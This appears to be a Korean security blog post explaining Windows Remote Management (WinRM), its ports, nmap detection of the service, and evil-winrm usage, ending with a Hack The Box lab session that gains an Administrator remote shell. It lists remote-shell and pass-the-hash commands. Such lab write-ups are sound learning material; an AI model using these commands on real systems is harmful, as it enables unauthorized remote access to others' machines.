 ```yaml
---
title: Windows Remote Management (WinRM)
categories: [Theory, Windows]
tags: [WinRM, wsman, Windows, Evil-WinRM]
image:
    path: /assets/image_post/20240213174835.png
---
```


Windows Remote Management (WinRM)이란 MS Windows에서 원격 관리를 위한 서비스이다. 모든 컴퓨터 장치와 관리 데이터를 원격으로 교환하기 위한 WS-Management 프로토콜을 MS에서 구현한 것이다.

WinRM 2.0에서 기본적으로 사용하는 http port는 5985, https는 5986이다. 해당 기능을 사용하고 있는 서버에 nmap으로 조회 시 아래와 같은 결과를 얻을 수 있다. wsman은 WS-Management을 뜻한다.

*※ 추가: 47001 port도 주로 사용되는 port 중 하나이다.*
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap 10.129.16.102 -p 5985
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:50 EST
Nmap scan report for 10.129.16.102
Host is up (0.31s latency).

PORT     STATE SERVICE
5985/tcp open  wsman
```
nmap의 옵션을 변경하여 조회 시 아래와 같이 나온다. `wsman`란 단어는 보이지 않고 `Microsoft HTTPAPI httpd 2.0`란 단어를 확인할 수 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sC -sV 10.129.16.102 -p 5985
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:43 EST
Nmap scan report for 10.129.16.102
Host is up (0.26s latency).

PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

대부분의 기능이 그렇지만, 편의성이 좋다는 것은 공격에 사용될 수 있다는 것을 뜻한다. WinRM 관련해 kali linux에 탑재된 `evil-winrm`을 사용하여 원격 쉘을 획득 할 수 있다. 기본적인 사용 방법은 아래와 같다.

``` bash
evil-winrm -i <target-ip> -u username -p password
# -P: Specifify port
evil-winrm -i <target-ip> -P 5986 -u username -p password

# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

# PowerShell Local Path (-s)
evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

# SSL enabled (-S)
evil-winrm -i <target-ip> -u username -p password -S
```

아래의 경우 hack the box의 responder 문제를 풀던 중에 시도한 내역이다. id와 pw를 알고 있어 쉽게 원격 쉘 획득에 성공했다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.16.102 -u Administrator -p badminton

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
responder\administrator
```
